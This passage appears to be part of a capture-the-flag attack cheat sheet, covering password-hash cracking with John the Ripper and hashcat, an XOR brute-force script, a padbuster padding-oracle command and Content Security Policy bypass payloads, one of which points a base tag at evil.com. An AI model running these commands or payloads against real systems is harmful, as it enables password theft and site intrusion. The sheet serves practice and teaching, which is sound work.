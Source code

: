 ### Step 10.2: Hash Cracking
```bash
# Identify hash type
hash-identifier
hashid <hash>

# John the Ripper
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# Hashcat (faster)
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt  # MD5
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt  # NTLM

# Online databases
# hashkiller.io, crackstation.net
```

### Step 10.3: Weak Encryption
```python
# XOR brute force
def xor_decrypt(ciphertext, key):
    return ''.join(chr(ord(c) ^ key) for c in ciphertext)

ciphertext = "encrypted_data"
for key in range(256):
    result = xor_decrypt(ciphertext, key)
    if 'flag' in result:
        print(f"Key: {key}, Result: {result}")
```

### Step 10.4: Padding Oracle
```bash
# Use padbuster tool
padbuster $TARGET/decrypt "encrypted_cookie" 8 -cookies "auth=encrypted_cookie"
```

---

## 11. Misc & Advanced {#11-misc-advanced}

### Step 11.1: CSP Bypass
```html
<!-- If nonce is in script tag -->
<script nonce="abc123">alert(1)</script>

<!-- JSONP callback abuse -->
<script src="http://trusted-site.com/api?callback=alert(1)"></script>

<!-- base-uri not set -->
<base href="http://evil.com/">
```
